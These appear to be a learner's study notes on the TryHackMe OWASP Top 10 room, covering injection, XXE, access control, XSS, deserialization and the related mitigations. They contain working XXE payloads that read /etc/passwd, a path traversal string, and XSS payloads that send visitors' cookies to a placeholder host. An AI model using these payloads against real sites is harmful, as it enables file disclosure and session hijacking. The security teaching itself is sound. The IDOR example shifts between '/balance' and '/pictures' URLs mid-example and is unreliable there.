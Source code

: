 # Tryhackme - OWASP TOP 10

#### https://tryhackme.com/room/owasptop10

### 1 Injection

Any kind of un-sanitized user input has chances of injection. Various types:

-   SQL injection (SQLi): unauthorized DBMS modification or retrieval
-   Command injection (RCE): Direct CLI access to server's underlying OS
-   File upload: Image file containing PHP/XML could be parsed by the server when requested

Mitigating SQLi with python mysql:

```
# UNSAFE

sql_command = "SELECT password FROM USERS WHERE name = {}".format(user_name_input)
mysql.execute(sql_command)
```

Even though the `sql_command` isn't made with string concatenation, it can still cause arbitrary input to be parsed by the `execute()` function.

```
# SAFE:

sql_command = "SELECT password FROM USERS WHERE name = %s"
mysql.execute(sql_command, (user_name_input,))
```

### 2 Broken Authentication

-   short passwords lead to brute force attacks: implement timeout after some failed login attempts
-   unsafe cookies such as not setting httpOnly flag or them being guessable can cause session hijacking

### 3 Sensitive Data Exposure

-   improper storage of passwords as plaintext or hashed without salting or using a weak hash function such as MD5 or SHA1
-   not restricting direct folder listing using ACLs
-   leaving sensitive information under the website's root folder for eg. `sqlite.db`
-   Path Traversal i.e. `../../../etc/passwd`
-   not masking `403 Forbidden` as `404 Not Found`

### 4 XML External Entity (XXE)

eXtensible Markup Language (XML) is a markup language similar to HTML which can be used by servers for data communication. It has certain features which are vulnerable to injection that can be used for file retrieval, SSRF, etc. In order to find an XXE, all nodes of the original XML request have to be tested individually.

A markup language is one that looks like:

```
<root>
    <name>
        Sam
    </name>
    <age>
        25
    </age>
</root>
```

-   SSRF Payload

    Situation: Frontend sends user input from "edit name" page as XML to backend which is vulnerable to XXE
    Result: Contents of internal firewall-ed website will be displayed on user profile

    ```
    <!DOCTYPE root [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
    <userInfo>
        <firstName>falcon</firstName>
        <lastName>&xxe;</lastName>
    </userInfo>
    ```

-   File Retrieval

    ```
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
    <root>&read;</root>
    ```

-   File Retrieval with XInclude (build XML from another XML) when `DOCTYPE` editing is restricted

    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```

-   HTTP Modify Content Type

    ```
    POST /action HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 7

    foo=bar
    ```

    changed to

    ```
    POST /action HTTP/1.0
    Content-Type: text/xml
    Content-Length: 52

    <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
    ```

### 5 Broken Access Control

This occurs when a client is able to view a webpage that was not supposed to be shown to them. For example a non-admin user being able to access the admin page.

-   Insecure Direct Object Reference (IDOR)

    Let us assume that a bank website allows users (Bob in this case) to view their balance at `https://www.example.com/balance/1234` (where `1234` is their account number) after logging in.

    If Bob is able to view someone else's balance on altering this URL to `https://www.example.com/pictures/1235`, it's an IDOR vulnerability.

    In a secure system, the server should check if the account number whose balance is being requested matches with the logged in user's session cookie or even better the balance should be displayed at `https://www.example.com/balance/` based on the session cookie.

### 6 Security Misconfiguration

Security misconfigurations include:

-   using default and generic passwords such as `admin`, `administrator`, `user`, `guest`, etc.
-   improper relaxed permissions (ALLOW ALL)
-   displaying error messages in production
-   revealing HTTP headers, for e.g. server software name and version

### 7 Cross-site Scripting (XSS)

XSS is mostly used for session hijacking.

-   Persistant XSS

    A website's comment form doesn't filter HTML tags enabling a bad actor to submit the following payload as a comment, leading to all visitor's browsers giving away the visitor's cookies to the bad actor.

    ```
    sample comment
    <script>
        fetch(`https://www.example.com/cookie-store.php?cookie=${document.cookie}`);
    </script>
    ```

-   Reflective XSS

    Malicious links are the main vector for reflected XSS attacks since it involves the bad actor taking advantage of un-sanitized parameters in URLs.

    Example: A shopping website has a search URL `https:/shop.shop/search?q=laptop` that returns a page with the search results with the search query shown at the top as "There are 10 matches for _laptop_"

    A bad actor could send a modified link containing URL encoded JS to the user via email. When clicked the link will cause the malicious script to be embedded in the search results page if the website doesn't sanitize the user input, leading to the user's browser giving up their cookies.

    Modified malicious link: `https:/shop.shop/search?q=laptop%3Cscript%3Efetch%28%60https%3A%2F%2Fwww.example.com%2Fcookie-store.php%3Fcookie%3D%24%7Bdocument.cookie%7D%60%29%3B%3C%2Fscript%3E`

### 8 Insecure Deserialization

Data is usually encoded (or serialized with Base64 for example) before being stored in cookies. When the server reads these cookies on page load, the de-encoding process is known as deserialization.

Since cookies are stored client side, then can be manipulated by the user. If the server uses a cookie's value and stores it in a database or runs it as part of a command, it can lead to Remote Code Execution (RCE). Hence the server should sanitize the cookie's value before reading by eliminating system commands, HTML tags etc from it.

The safest option would be to store the cookie's value server-side itself but if for some reason it has to be stored client-side possible mitigations can be:

-   encrypt the cookie's contents and store only the key on server allowing the cookie value to be decrypted later
-   store cookie value hash on the server and verify of page load

### 9 Components with Known Vulnerabilities

Sites like https://www.exploit-db.com/ and https://cve.mitre.org/ list thousands of security vulnerabilities along with their exploit codes. If a server runs a program which suffers from any of the public vulnerabilities, a bad actor can instantly compromise it. Hence it's important to keep all programs updated to the latest versions available.

### 10 Insufficent Logging & Monitoring

In case of any cyber attack such as #3 Sensitive Data Exposure or #7 XSS, it's imperative that information such as the following should be available to be accessed.

-   scale of damage
-   users impacted
-   bad actors identity

For this reason, website access and database update logs containing the IPs, User Agent and other information about the clients should be saved securely and backed up periodically while preventing the bad actors from modifying or erasing them.

